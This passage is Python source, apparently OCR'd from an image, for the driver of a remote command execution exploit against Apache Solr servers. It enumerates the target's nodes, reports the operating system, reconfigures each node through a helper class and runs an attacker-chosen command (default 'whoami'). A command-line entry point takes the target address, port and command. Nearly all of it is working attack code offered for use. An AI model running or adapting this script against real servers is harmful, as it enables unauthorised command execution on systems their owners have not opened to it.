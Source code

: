 
    def check(ip, port='8983', command='whoami'):
        system = initSolr(ip=ip, port=port)
        if system.get_nodes()['state'] == 0:
            print('No Nodes Found. Remote Exec Failed!')
        else:
            nodes = system.get_nodes()['node']
            systeminfo = system.get_system()
            os_name = systeminfo['system']['name']
            os_version = systeminfo['system']['version']
            print('OS Realese: %s, OS Version: %s\nif remote exec failed, '
                  'you should change your command with right os platform\n' % (os_name, os_version))

            for node in nodes:
                res = apacheSolrRCE(ip=ip, port=port, node=node, command=command)
                init_node_config = res.init_node_config()
                if init_node_config['state'] == 1:
                    print('Init node %s Successfully, exec command=%s' % (node, command))
                    result = res.rce()
                    print(result)
                else:
                    print('Init node %s Failed, Remote Exec Failed\n' % node)


    if __name__ == '__main__':
        usage = ('python3 script.py ip [port [command]]\n '
                 '\t\tdefault port=8983\n '
                 '\t\tdefault command=whoami')

        if len(sys.argv) == 4:
            ip = sys.argv[1]
            port = sys.argv[2]
            command = sys.argv[3]
            check(ip=ip, port=port, command=command)
        elif len(sys.argv) == 3:
            ip = sys.argv[1]
            port = sys.argv[2]
            check(ip=ip, port=port)
        elif len(sys.argv) == 2:
            ip = sys.argv[1]
            check(ip=ip)
        else:
            print('Usage: %s:\n' % usage)
